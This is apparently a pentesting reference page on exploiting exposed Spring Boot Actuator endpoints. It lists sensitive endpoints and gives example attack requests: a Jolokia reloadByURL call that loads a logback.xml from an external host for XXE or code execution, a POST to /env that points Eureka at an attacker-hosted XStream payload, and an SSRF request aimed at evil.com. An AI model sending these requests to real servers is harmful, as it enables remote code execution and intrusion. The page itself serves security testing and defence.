 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

- Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
- Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  - `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
- In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   - The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   - The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   - Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

   - If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   - Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   - Example exploit POST request:

     ```
     POST /env HTTP/1.1
     Host: 127.0.0.1:8090
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 65

     eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
     ```

3. **Other Useful Settings**:
   - Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

- A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1.  **Env + H2 RCE**:
    - Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   - The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   - Example exploit request:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

    {{#include ../../banners/hacktricks-training.md}}



